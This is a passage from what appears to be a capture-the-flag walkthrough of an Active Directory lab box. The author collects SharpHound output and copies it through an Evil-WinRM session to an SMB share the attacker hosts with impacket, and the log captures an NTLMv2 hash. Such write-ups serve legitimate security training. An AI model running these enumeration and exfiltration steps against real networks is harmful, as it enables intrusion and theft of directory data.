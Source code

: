 ```

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 21 MB RAM
Status: 124 objects finished (+124 41.33333)/s -- Using 27 MB RAM
Enumeration finished in 00:00:03.7526732
Compressing data to .\20200909121627_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 12:16 PM on 9/9/2020! Happy Graphing!
```

I then copied the zip file created by SharpHound to the remote share on my Kali machine:

```
*Evil-WinRM* PS C:\Windows\Temp\r0kit> $pass = ConvertTo-SecureString "h4ckit" -AsPlainText -Force
*Evil-WinRM* PS C:\Windows\Temp\r0kit> $creds = New-Object System.Management.Automation.PSCredential("r0kit",$pass)
*Evil-WinRM* PS C:\Windows\Temp\r0kit> New-PSDrive -Name r -PSProvider FileSystem -Root \\10.10.14.24\r0kit -Credential $creds


Name           Used (GB)     Free (GB) Provider      Root                                                                                                                                                                                 CurrentLocation
----           ---------     --------- --------      ----                                                                                                                                                                                 ---------------
r                                      FileSystem    \\10.10.14.24\r0kit

*Evil-WinRM* PS C:\Windows\Temp\r0kit> cp 20200909121627_BloodHound.zip r:\
```

```
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/ -username r0kit -password h4ckit -smb2support
[sudo] password for kali:
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.161,63585)
[*] AUTHENTICATE_MESSAGE (\r0kit,FOREST)
[*] User FOREST\r0kit authenticated successfully
[*] r0kit:::4141414141414141:cca7771ab78be8ea5cb19236519945b6:01010000000000008082d239dd86d6012b5ff6c8e0002008000000000100100046004b0043007a007700440051006c000300100046004b0043007a007700440051006c00020010006e00530075005000620067006b007700040010006e00530075005000620067006b007700070008008082d239dd86d6010600040002000000080030003000000000000000000000000020000051a6d0303c9e21414254c01ec24314e2a3f6babd3ef531c9be9facccafeb95090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:r0kit)
```
